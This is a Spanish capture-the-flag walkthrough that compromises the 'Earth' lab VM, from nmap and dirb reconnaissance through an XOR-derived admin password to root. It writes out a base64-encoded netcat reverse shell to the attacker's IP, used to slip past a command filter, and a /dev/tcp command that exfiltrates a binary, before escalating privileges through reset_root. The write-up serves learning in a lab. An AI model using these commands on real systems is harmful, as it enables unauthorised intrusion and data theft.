comenzamos con un mapeo lento de la ip sobre la VM:
IP:192.168.0.211
comando: nmap 192.168.0.211 -vv

obtenemos este output con el cual nosotros estamos seguros que posee el SSH abierto (puerto 22) y exite una webpage alojada en el puerto 80 de la maquina y en ultima instancia hay un servicio https alojado en el puerto 443.
ahora empezaremos con un escaneo mas fuerte para poder sacar mas informacion como que tipo de servicio http usa la pagina (probablemente apache2)
comando: nmap 192.168.0.211 -sV -sC -vv

para el puerto 80 obtenemos que efectivamente esta usando apache2
en el puerto 443 obtenemos estos DNS de pagina:

earth.local y terratest.earth.local
ahora intentaremos ver que tipo de pagina webe sta alojada en el puerto 80, pero al entrar vemos este ‘error’

intentaremos ver que pasa en el https

parece una pagina default, como tenemos los DNS de las paginas que deberiamos ver entraremos a /etc/hosts en nuestra kali linux para poder asosciar ip con DNS

al entrar obtenemos esta pagina web:

usaremos dirb para conseguir directorios ocultos
comando: dirb https://earth.local/

encontramos /admin donde hay un login, intentamos con bypass y las default credentials pero no funciona, entonces intentaremos investigando en la otra pagina, usaremos:
dirb https://terratest.earth.local/
para ver si encontramos alguna pista de las credenciales
encontramos lo siguiente:

user: terra
en testdata.txt tenemos el siguiente texto:
According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.

usando de key el texto de antes y iterando sobre los hex de la pagina principal de earth.local podremos encontrar que esta es una posible contrase;a
pass: earthclimatechangebad4humans

buscamos la user flag:

aqui podremos conectarnos manualmente con net cat, pero este no funciona asi que procederemos a codificarlo en base64 y enviar el comando codificado
echo 'nc -e /bin/bash 192.168.0.101 4444' | base64
bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMC4xMDEgNDQ0NAo=
echo ‘bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMC4xMDEgNDQ0NAo=’ | base64 -d |bash
este ultimo comando lo mandaremos y obtenemos la reverse shell
una vez aqui probamos todo lo posible para ver si tenemos algun file con permisos excedidos para aprovecharnos pero no encontre nada, entonces busque aquellos files ejecutables para el usuario apache, y encontre
/usr/bin/reset_root y lo intente ejecutar pero esto paso:

entonces decidi descargarme el archivo en mi kali linux usando net cat
para pasar un archivo por net cat debemos primero abrir un puerto escuchando y redirijir el output en un archivo al cual le pondremos reset_root
nc -lvp 3333
y en la target machine usaremos el siguiente comando:
cat /usr/bin/reset_root > /dev/tcp/192.168.0.101/3333
una vez obtenido el archivo procederemos a verlo

para poder ver el archivo usaremos la herramienta ltrace
ltrace ./reset_root

crearemos las carpetas que faltan (las de la funcion access)
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe
./reset_root

tenemos la password de root

obtenemos la root_flag.txt
